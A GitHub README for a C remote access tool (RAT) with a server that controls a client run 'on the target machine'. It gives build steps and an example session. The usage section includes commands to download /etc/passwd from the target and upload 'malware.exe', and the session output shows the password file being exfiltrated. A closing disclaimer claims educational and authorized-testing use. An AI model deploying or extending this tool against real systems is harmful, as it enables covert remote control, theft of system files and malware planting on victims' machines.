 
# C RAT with OS-Specific Prompts

A Remote Access Tool (RAT) written in C that provides OS-specific command prompts and supports all native operating system commands with enhanced file transfer capabilities.

## Table of Contents
- [Features](#features)
- [Installation](#installation)
- [Usage](#usage)
- [File Overview](#file-overview)
- [Examples](#examples)
- [Security Note](#security-note)
- [Contributing](#contributing)
- [License](#license)
- [Contact](#contact)

## Features
- **OS-Specific Prompts**: Displays proper command prompts for Linux (`[user@hostname dir]$`) and Windows (`C:\path\>`)
- **Native Command Support**: All standard OS commands work directly (ls, pwd, cd, ps, netstat, dir, type, etc.)
- **File Transfer**: Upload and download files between server and client
- **Cross-Platform**: Compatible with both Linux and Windows systems
- **Dynamic Directory Tracking**: Prompt updates automatically when changing directories
- **Seamless Integration**: Works like a native terminal session

## Installation
Clone the repository and compile the binaries:

```bash
git clone https://github.com/elxecutor/RAT.git
cd RAT
gcc -o server server.c
gcc -o client client.c
```

## Usage

### Starting the Server
1. Run the server on the controller machine:
   ```bash
   ./server
   ```

### Connecting the Client
2. Run the client on the target machine:
   ```bash
   ./client
   ```

### Basic Commands
3. Execute commands from the server interface:
   ```bash
   >> ls -la
   >> cd /tmp
   >> pwd
   >> whoami
   >> download /etc/passwd
   >> upload malware.exe
   >> exit
   ```

## File Overview

### Core Files
- `server.c` - Controller application that sends commands to clients
- `client.c` - Agent application that runs on target systems and executes commands
- `README.md` - Project documentation
- `.gitignore` - Git ignore rules for compiled binaries and temporary files

### Key Functions
- **OS Detection**: Automatically detects Linux vs Windows environment
- **Prompt Generation**: Creates appropriate command prompts for each OS
- **Command Execution**: Handles all native OS commands plus custom upload/download
- **File Transfer**: Secure file upload and download functionality

## Examples

### Example Server Session
```
======================================================
                    C RAT Server                     
======================================================
Commands:
======================================================
System:
  help                    show this help menu
  <any_command>           execute any OS command
  exit                    terminate session

Files:
  download <file>         download file from client
  upload <file>           upload file to client

Notes:
  All standard OS commands work (ls, pwd, cd, etc.)
  Windows commands work too (dir, type, etc.)
  The prompt shows the current OS and directory
======================================================
Waiting for client to connect...
[atsuomi@executor rat]$ 

>> ls
client    client.c    README.md    server    server.c
[atsuomi@executor rat]$ 

>> cd /tmp
[atsuomi@executor tmp]$ 

>> pwd
/tmp
[atsuomi@executor tmp]$ 

>> download /etc/passwd
Downloading file: /etc/passwd
File downloaded successfully as: ./passwd
File sent for download
[atsuomi@executor tmp]$ 

>> exit
Terminating connection...
```

### Key Changes Made
1. **OS Detection**: Automatically detects Linux vs Windows
2. **Dynamic Prompts**: Shows current user, hostname, and directory
3. **Simplified Commands**: Removed custom command handlers except upload/download
4. **Native Command Execution**: All OS commands work directly
5. **Better Integration**: Seamless command-line experience
6. **Fixed Command/Response Flow**: Every command gets a proper response
7. **Improved Error Handling**: Better handling of failed commands and connections
8. **Enhanced cd Command**: Proper directory change handling with prompt updates

## Security Note

**⚠️ IMPORTANT DISCLAIMER ⚠️**

This tool is designed for **educational purposes and authorized penetration testing only**. 

- Only use this tool on systems you own or have explicit written permission to test
- Unauthorized access to computer systems is illegal and unethical
- The authors are not responsible for any misuse of this software
- Always comply with local laws and regulations
- Use responsibly and ethically

## Contributing
We welcome contributions! Please see our [Contributing Guidelines](CONTRIBUTING.md) and [Code of Conduct](CODE_OF_CONDUCT.md) for details.

## License
This project is licensed under the [MIT License](LICENSE).

## Contact
For questions or support, please open an issue or contact the maintainer via [X](https://x.com/elxecutor/).
